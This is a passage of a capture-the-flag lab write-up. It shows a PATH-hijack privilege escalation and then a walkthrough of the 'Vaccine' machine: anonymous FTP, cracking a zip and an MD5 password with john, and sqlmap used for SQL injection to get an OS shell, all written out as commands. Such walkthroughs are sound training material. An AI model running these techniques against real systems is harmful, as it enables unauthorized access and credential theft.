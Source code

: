 ```
cd /tmp
echo "bin/sh" > cat
chmod +x cat
export PATH=/tmp:$PATH # adds /tmp to the PATH variable
bugtracker
```

FLAG: af13b0bee69f8a877c3faf667f7beacf

--------------------------------------------------------------------

## VACCINE BOX

**TOOLS USED**: nmap, john, sqlmap, netcat

**IP Address**: 10.129.25.68

```
nmap -sC -sV -p- -oN vaccine_nmap.txt 10.129.25.68
```

**EXPOSED PORT (SERVICE)**:<br>
21 (ftp),<br>
22 (ssh), <br>
80 (http)


FTP anonymous login allowed.

```
ftp anonymous@10.129.25.68
ls
get backup.zip
```

```
zip2john backup.zip > 4john.txt
john 4john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

BACKUP.ZIP PASSWORD: 741852963<br>
USER: admin<br>
PASSWORD HASH: 2cb42f8734ea607eefed3b70af13bbd3

```
john password.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```

PASSWORD: qwerty789

PARAMETER: ?search\=

```
sqlmap -u http://10.129.25.68/dashboard.php\?search\=bmw --cookie="PHPSESSID=1k1l8fdirbj26c9i8rrbg2t9gm" --os-shell
```

--os-shell to get interactive shell once sql injection is complete <br>
--cookie either use Burp Suite or inspect element (Application > Storage) after logged in
